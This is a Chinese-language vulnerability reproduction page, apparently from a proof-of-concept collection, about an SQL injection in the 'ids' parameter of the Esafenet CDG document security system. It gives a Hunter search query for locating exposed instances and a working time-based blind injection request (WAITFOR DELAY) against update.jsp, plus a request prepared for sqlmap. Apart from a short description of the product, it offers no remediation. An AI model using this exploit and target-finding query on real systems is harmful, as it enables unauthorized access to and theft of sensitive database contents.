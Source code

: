 # 亿赛通电子文档安全管理系统ids存在SQL注入漏洞

# 一、漏洞简介
 亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产，对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通部门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。亿赛通电子文档安全管理系统ids存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ 亿赛通电子文档安全管理系统

# 三、资产测绘
+ hunter`app.name="ESAFENET 亿赛通文档安全管理系统"`
+ 登录页面

![1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6.png](./img/c0SeDCIhywj7BmwP/1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6-274143.png)

# 四、漏洞复现
```plain
GET /CDGServer3/workflowE/useractivate/update.jsp?flag=1&ids=1,3)WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Upgrade-Insecure-Requests: 1
```

![1702456515765-85e20e74-35e6-43c1-9535-88b9bb56f52c.png](./img/c0SeDCIhywj7BmwP/1702456515765-85e20e74-35e6-43c1-9535-88b9bb56f52c-105707.png)

sqlmap

```plain
GET /CDGServer3/workflowE/useractivate/update.jsp?flag=1&ids=1,3)%20 HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Upgrade-Insecure-Requests: 1
```

![1702456548688-79eed2f9-fa8a-4c4b-8e7e-61bcda3b85c6.png](./img/c0SeDCIhywj7BmwP/1702456548688-79eed2f9-fa8a-4c4b-8e7e-61bcda3b85c6-737502.png)



> 更新: 2024-04-20 22:01:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/tmm1ig5i22zrmpdp>